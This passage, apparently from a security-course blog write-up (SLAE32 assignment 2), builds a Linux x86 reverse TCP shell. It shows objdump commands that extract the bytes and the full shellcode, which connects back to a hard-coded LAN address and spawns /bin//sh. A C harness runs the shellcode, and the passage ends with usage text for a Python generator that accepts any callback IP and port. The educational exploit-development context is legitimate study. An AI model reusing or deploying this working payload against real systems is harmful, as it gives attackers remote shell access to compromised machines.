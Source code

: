 ```nasm
 80480b1:	b0 06                	mov    al,0x6
 80480b3:	89 fb                	mov    ebx,edi
 80480b5:	cd 80                	int    0x80
```

**Source Code**<br/>
You can grab the source code for both the C and assembly programs from the following location:<br/>
[https://github.com/tdmathison/SLAE32/tree/master/assignment2](https://github.com/tdmathison/SLAE32/tree/master/assignment2)

**We can extract the bytes with objdump**
```
[sengen@manjaro-x86 assignment2]$ objdump -d ./rev_shell_asm|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\xc0\xa8\x01\x7a\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\x89\xfb\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80"
```

**Add it to a test C program**
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\xc0\xa8\x01\x7a\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\x89\xfb\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```

**Start listening with netcat**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-04.png"/>

**Execute reverse shell shellcode**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-05.png"/>

**Client received shell and can execute commands**<br/>
<img src="{{ site.url }}/assets/img/slae32/02-06.png"/>

## Phase 4: Write a wrapper python script
I wrote a helper python script that will generate the shellcode with target IP address and port.
```
[sengen@sengen assignment2]$ python create_rev_shell.py
Usage: create_rev_shell.py [options]

Generates Reverse TCP Shell shellcode.

Options:
  -h, --help            show this help message and exit
  -i IP_ADDRESS, --ip-address=IP_ADDRESS
                        IP address to connect back to
  -p PORT, --port=PORT  Port to connect back to
```